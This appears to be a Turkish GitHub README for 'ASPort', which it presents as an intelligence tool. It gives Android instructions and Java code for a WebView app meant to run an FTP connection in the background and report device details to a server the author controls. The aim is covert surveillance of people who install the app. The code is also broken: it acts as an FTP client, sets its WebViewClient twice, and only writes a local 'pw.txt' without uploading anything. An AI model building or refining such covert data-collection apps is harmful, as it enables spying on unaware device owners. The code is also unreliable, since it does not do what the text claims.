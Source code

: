 # ASPort
ASPort Bir İstihbarat Aracıdır. Kullanımından tamamen kullanıcılar sorumludur.
Wevbiew uygulaması olan, arkaplanda indirildiği cihazda FTP sunucusu açan ve sunucu bilgilerini istenen sunucudaki txt dosyasına kaydeden program için kod.

1. Android Studio'da yeni bir proje oluşturun ve `WebViewExample` gibi bir isim verin.

2. `activity_main.xml` dosyasını açın ve aşağıdaki içeriği ekleyin:

```xml
<?xml version="1.0" encoding="utf-8"?>
<WebView
    xmlns:android="http://schemas.android.com/apk/res/android"
    android:id="@+id/webview"
    android:layout_width="match_parent"
    android:layout_height="match_parent"
/>
```

3. `MainActivity.java` dosyasını açın ve aşağıdaki kodu ekleyin:

```java
import android.os.Bundle;
import android.webkit.WebSettings;
import android.webkit.WebView;
import android.webkit.WebViewClient;

import androidx.appcompat.app.AppCompatActivity;

import org.apache.commons.net.ftp.FTP;
import org.apache.commons.net.ftp.FTPClient;

import java.io.BufferedWriter;
import java.io.FileWriter;
import java.io.IOException;
import java.util.Random;

public class MainActivity extends AppCompatActivity {

    private WebView webView;

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        webView = findViewById(R.id.webview);
        webView.setWebViewClient(new WebViewClient());

        WebSettings webSettings = webView.getSettings();
        webSettings.setJavaScriptEnabled(true);

        // WebView'e yüklenecek URL'i belirtin
        webView.loadUrl("http://www.example.com");

        // WebView yüklendikten sonra FTP sunucusunu başlatın
        webView.setWebViewClient(new WebViewClient() {
            @Override
            public void onPageFinished(WebView view, String url) {
                startFTPServer();
            }
        });
    }

    private void startFTPServer() {
        new Thread(new Runnable() {
            @Override
            public void run() {
                String ftpServerAddress = "FTP_SERVER_ADDRESS";
                int ftpServerPort = 21;
                String ftpUsername = "FTP_USERNAME";
                String ftpPassword = "FTP_PASSWORD";

                FTPClient ftpClient = new FTPClient();
                try {
                    ftpClient.connect(ftpServerAddress, ftpServerPort);
                    ftpClient.login(ftpUsername, ftpPassword);
                    ftpClient.enterLocalPassiveMode();
                    ftpClient.setFileType(FTP.BINARY_FILE_TYPE);

                    // Rastgele bir 6 haneli kod oluşturun
                    String deviceCode = generateDeviceCode();

                    // Sunucuya cihaz bilgilerini yazdırın
                    BufferedWriter writer = new BufferedWriter(new FileWriter("pw.txt", true));
                    writer.write(deviceCode + ": " + webView.getUrl());
                    writer.newLine();
                    writer.close();
                } catch (IOException e) {
                    e.printStackTrace();
                } finally {
                    if (ftpClient.isConnected()) {
                        try {
                            ftpClient.logout();
                            ftpClient.disconnect();
                        } catch (IOException e) {
                            e.printStackTrace();
                        }
                    }
                }
            }
        }).start();
    }

    private String generateDeviceCode() {
        Random random = new Random();
        int randomNumber = random.nextInt(900000) + 100000; // 100000 ile 999999 arasında rastgele bir sayı
        return String.valueOf(randomNumber);
   

 }
}
```

4. `FTP_SERVER_ADDRESS`, `FTP_USERNAME` ve `FTP_PASSWORD` değişkenlerini kendi FTP sunucu bilgilerinizle değiştirin.

5. Projenizi derleyin ve çalıştırın. Uygulama, WebView ile belirtilen URL'i yükleyecektir. WebView yüklendikten sonra arka planda FTP sunucusu başlatılacak ve cihazın bilgileri sunucunuza gönderilecektir. Bu bilgileri `pw.txt` dosyasında görebilirsiniz.

Önemli Not: FTP kullanımı, güvenlik açıklarına neden olabilir. Bu kod örneği yalnızca konsepti göstermek amacıyla verilmiştir. Gerçek uygulamalarda daha güvenli veri iletişim yöntemleri (örneğin, HTTPS üzerinden sunucuya veri gönderme) kullanmanızı öneririm. Ayrıca, sunucunuzda güvenlik önlemlerini sağlamak için gerekli adımları atmaktan emin olun.
